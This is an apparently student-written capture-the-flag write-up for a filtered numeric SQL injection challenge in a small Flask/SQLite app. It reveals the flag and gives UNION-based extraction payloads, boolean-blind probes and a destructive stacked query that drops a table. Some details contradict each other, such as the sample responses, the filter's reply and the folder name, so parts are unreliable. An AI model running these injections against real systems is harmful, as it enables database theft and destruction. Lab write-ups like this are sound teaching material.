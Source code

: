 # SQLi_Filtered – Personalised Write‑up

**Category:** Web – 150 pts
**Flag:** `flag{sqli_filtered}`

---

## Simple Challenge Flow

1. The application only has a single point of GET /lookup?uid=<value>
2. Using `1` returns `User name: alice`, confirming there is a `users` table
3. By using all types of regex and the basic tests you see that the code blocks the quotes and semicolons, meaning that it must be Numeric SQL, this means the payload must be something like 0 UNION SELECT 1-- without quotes and semicolons
4. using 0 UNION SELECT sql FROM sqlite_master--, I can reveal that there is a table called very_secret
5. From here I can find the flag using 0 UNION SELECT flag FROM very_secret--
6. This reveals the flag of flag{sqli_filtered}


---


## How Difficulty Was Increased and Defence Mechanisms

I increased the difficulty by prohibiting the use of '," and ; through using a numeric solution when the normally, the solutions are string-based. I further used Generic error messages that would force blind experimentation instead of having the given error messages. I also recompiled the regex after each request to make a new compilation that would slightly obfuscates the code path. I implemented Quote and Semicolon to block ' OR 1=1-- and other similar classic solves. 


---

## Indepth Build and Solution Notes

### Build Section

This CTF challenge is a tiny flask web app that usese SQLite. It exposes one endpoint which is the GET /lookup?uid=<value> that looks up a user's name by uid and prints it. 
This task initially creates an sqlite file next to the script as a .db and it makes a flag of "flag{sqli_filtered}". It then creates 2 tables of users as users(uid, name) pre‑seeded with A/B/C and a very_secret(flag) containing the flag. At the lookup endpoint, the code gets a uid from the query string and blocks quotes and semicolons (returns HTTP 400) to stop obvious SQL payloads. The reason why SQL injections can appear for this task is because of the line 
```python
    query = "SELECT name FROM users WHERE uid = " + uid
    query = "SELECT name FROM users WHERE uid = ?", (int(uid),)
```
compared to the much safer version listed below it. This allows for sql injections as this task in particular is an integer-based in-band union based SQL injection, playing off the classic UNION-based sqli with a numeric filter that exludes string literals. This filter increases the difficulty by narrowing the attack surface and forcing knowledge of SQLite's schema and ordering tricks and column cardinality. I also limited the use of error checking in this test where the use of "return "SQL error", 400" as a result of regexing with certain commands that are used to usually test sql injections. 
To demonstrate this, here is a list of the common sql attacks and how they fail against the filter and how it forces certain difficulty. 

| Attack style | With Filter | Without Filter | Example payload | What happens / why|
| - | - | - | - | - |
| **Tautology** | **Yes** | **Yes** | `1 OR 1=1--` | WHERE becomes `uid = 1 OR 1=1` → many rows and app prints first (“A”). |
| **String‑based tautology** | **No** (needs quotes) | **Yes** | `0 OR 'a'='a'--` | Quotes make it easy to force TRUE but blocked in filtered version. |
| **UNION‑based** | **Yes** | **Yes** | `0 UNION SELECT flag FROM very_secret--` | Column count = 1 matches `name` and returns the flag.                                                               |
| **UNION + targeted schema query** | **Harder** (Solution Path) | **Yes** | `0 UNION SELECT sql FROM sqlite_master WHERE name='very_secret'--` | With quotes, it directly filter to the target table, without quotes, it’s simpler. |
| **Boolean‑based blind** | **Possible** (sql functions) | **Easier** (use quoted chars/LIKE)  | With filter: `1 AND substr((SELECT flag FROM very_secret),1,1)=char(102)--`  \| Without filter: `1 AND substr((SELECT flag FROM very_secret),1,1)='f'--` | You can infer TRUE/FALSE by response difference (`User name: …` vs `Len=0`).                                         |
| **Error‑based** | **Weak** (generic “SQL error” hides details) | **Still weak** (same masking) | `1'`  | App returns just “SQL error”, so you can’t infer from error text either way. |
| **Time‑based blind** | **N/A** | **N/A** | **N/A** | SQLite doesn’t have a sleep functions |
| **Stacked queries**  | **No** | **Yes** | `1; DROP TABLE users--` | `sqlite3.execute()` only allows one statement so stacked won’t run unless the app used `executescript()`. |




### Solution Section


0. Run the server
Use python3 app.py in web-xss-csp
Make sure that all dependencies are present
head to the home page



1. Normal Request as Recon
- Request = `1`
- Response = `User name: A`
This confirms that there is a table and that it has a single-column at least

2. Filter Behabiour
- Request = `1;` or `1'`
- Response = `Nice try`
This confirms that the challenge has quotes and semicolon filtering, leading the user to not use quotes and instead use the union path.

3. Cardinality of Column
- Request = `0 UNION SELECT 1--`
- Response = `User name: 1`
This confirms that UNION is accepted in this task and allows for other UNION based request to be allowed

4. Schema enumeration
- Request = `0 UNION SELECT sql FROM sqlite_master--`
- Response = `CREATE TABLE ... very_secret(flag TEXT)`
This confirms the target table and column names without using quotes and requires general knowledge of sqlite.

5. Flag Extraction
- Request = `0 UNION SELECT flag FROM very_secret--`
- Response = `User name: flag{sqli_filtered}`
This confirms that the exploit path works ad shows the in-band leakage. 



## Related & Future Variants
- Blind‑SQLi via time‑based or Boolean‑based techniques when direct feedback is suppressed
- Second‑Order SQLi where inputs are stored in one context and later executed in a different query
- Out‑of‑band SQLi leveraging DNS/HTTP exfiltration to leak data when in‑band channels are filtered

---

### Sources
* **OWASP testing Guide** https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection
* **PentesterLab – SQL Injection** https://pentesterlab.com
* **PayloadsAllTheThings – SQLi** https://github.com/swisskyrepo/PayloadsAllTheThings
* **SQLite Docs** https://www.sqlite.org/lang_select.html
